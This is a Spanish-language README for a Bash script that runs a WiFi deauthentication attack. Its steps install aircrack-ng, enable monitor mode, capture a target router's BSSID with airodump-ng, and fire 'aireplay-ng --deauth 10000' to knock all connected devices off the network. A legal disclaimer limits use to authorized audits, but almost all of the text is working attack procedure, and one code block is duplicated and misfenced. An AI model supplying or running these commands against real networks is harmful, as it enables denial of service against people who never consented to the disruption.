 # 🔓 WiFi Deauthentication Script

Este script en Bash permite realizar un ataque de **deautenticación WiFi**, forzando la desconexión de todos los dispositivos conectados a un router específico. Es útil para pruebas de **auditoría de seguridad** en redes propias.

> ⚠️ **Advertencia Legal**  
> Este script está destinado exclusivamente a fines educativos y de auditoría en redes autorizadas.  
> El uso no autorizado de esta herramienta puede violar leyes locales o internacionales.  
> El autor no se responsabiliza por el uso indebido.

---

## 🛠 Requisitos

- 🐧 **Distribución Linux** con soporte de herramientas de auditoría (Kali Linux, Parrot OS, etc.).
- 📡 **Adaptador WiFi** compatible con **modo monitor** e **inyección de paquetes**.
- 🔧 **Paquete `aircrack-ng`** instalado (incluye `airmon-ng`, `aireplay-ng`, etc.).

### 1. Instalación de `aircrack-ng` (si aún no lo tienes):

```bash
sudo apt update && sudo apt install aircrack-ng
```

```bash
sudo apt update && sudo apt install aircrack-ng
```
### 2. Da permisos de ejecución al script
```bash
chmod +x deauth.sh
3. Ejecuta el script como superusuario "sudo"
```

```bash
sudo ./deauth.sh
```

### 4. Selecciona la interfaz WiFi
El script mostrará tus interfaces disponibles. Por ejemplo:

```
wlan0 
wlan1

Introduce el nombre de la interfaz que deseas usar.
```

### 5. Activa el modo monitor
Si aún no lo has hecho manualmente, actívalo así:

```bash
sudo airmon-ng start wlan0
```

### 6. Introduce el BSSID del router objetivo
El script te pedirá que ingreses el BSSID (ejemplo: 
```
54:65:DE:8D:8F:10).
```
Puedes obtenerlo usando:

```bash
sudo airodump-ng wlan0mon
```

### 7. El script lanzará el ataque
Verás un mensaje indicando que se ha iniciado el ataque con:

```
bash
sudo aireplay-ng --deauth 10000 -a [BSSID] [interfaz]
```

### 8. Para detener el modo monitor (opcional)
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
```